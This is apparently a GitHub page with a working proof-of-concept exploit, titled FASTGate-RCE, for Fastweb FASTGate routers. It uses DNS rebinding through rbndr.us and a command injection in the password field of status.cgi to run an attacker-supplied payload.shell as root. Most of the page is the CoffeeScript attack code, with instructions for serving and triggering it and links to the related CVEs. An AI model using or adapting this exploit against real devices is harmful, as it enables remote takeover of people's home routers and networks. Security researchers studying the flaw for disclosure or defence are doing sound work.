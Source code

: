 ```yaml
---
title: FASTGate-RCE
description: Abusing DNS to exploit a command injection and obtain root
layout: default
---
```


This is the combination of already available exploit and attack techniques.


Serve the exploit as the index of a local webserver.
Craft a tailored `payload.shell` to verify the execution.
Open a web browser and visit `7f000001.c0a801fe.rbndr.us`
(switch between localhost and 192.168.1.254).

```coffeescript

ajax = (url, params, hdrs) ->
  try
    req = new XMLHttpRequest

    qs = new URLSearchParams
    if params
      `for (const [key, val] of Object.entries(params)) {
        qs.append(key, val);
      }`
      url += "?#{qs.toString()}"

    req.open 'GET', url, 0
    req.setRequestHeader 'X-Requested-With', 'XMLHttpRequest'
    req.setRequestHeader 'Content-type', 'application/x-www-form-urlencoded'
    if hdrs
      `for (const [key, val] of Object.entries(hdrs)) {
        req.setRequestHeader(key, val);
      }`

    req.send()
    if req.status == 200
      req.responseText
    else
      null

  catch
    null

random_string = (len) ->
  ascii_letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
  digits = '0123456789'
  letters = ascii_letters + digits
  result = ''
  for i in [0...len]
    result += letters.charAt Math.random() * letters.length
  return result

exploit = (cmd, token) ->
  params = {
    '_': "#{Math.round (new Date).getTime() / 1000}pytester#{random_string 12}",
    'sessionKey': 'NULL',
    'cmd': '3',
    'nvget': 'login_confirm',
    'username': random_string(4),
    'password': "'; #{cmd} ; #"
  }
  hdrs = {
    'X-XSRF-TOKEN': token,
    'DNT': '1',
    'Cookie': document.cookie
  }
  ajax '/status.cgi', params, hdrs

isthisyou = ->
  ajax '/status.cgi', {
    '_': "#{Math.round Date.getTime / 1000}pytester#{random_string 12}"
  }

class @Payload
  set = ->
    this.code = ajax '/payload.shell' if !isthisyou()
    return
  hasnot = ->
    !this.code?
  get = ->
    this.code

mp = new Payload
mp.set() while mp.hasnot()
token = Math.round Math.random * 100000000000
document.cookie = "XSRF-TOKEN=#{token}"
while true
  if isthisyou()
    exploit mp.get(), token
    break

```


Nothing prevents remote exploitation, root is gained.
Shell shoveling and verification is voluntarily omitted.

## Links

- [http://www.fastweb.it/forum/servizi-rete-fissa-tematiche-tecniche/urgente-vulnerabilita-modem-fastgate-0-00-47-t22720.html](http://www.fastweb.it/forum/servizi-rete-fissa-tematiche-tecniche/urgente-vulnerabilita-modem-fastgate-0-00-47-t22720.html)
- [https://www.exploit-db.com/exploits/44606/](https://www.exploit-db.com/exploits/44606/)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6023](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6023)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20122](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20122)
- [https://github.com/taviso/rbndr](https://github.com/taviso/rbndr)
- [https://github.com/Depau/fastgate-python](https://github.com/Depau/fastgate-python)
- [https://github.com/Nimayer/fastgate-toolkit](https://github.com/Nimayer/fastgate-toolkit)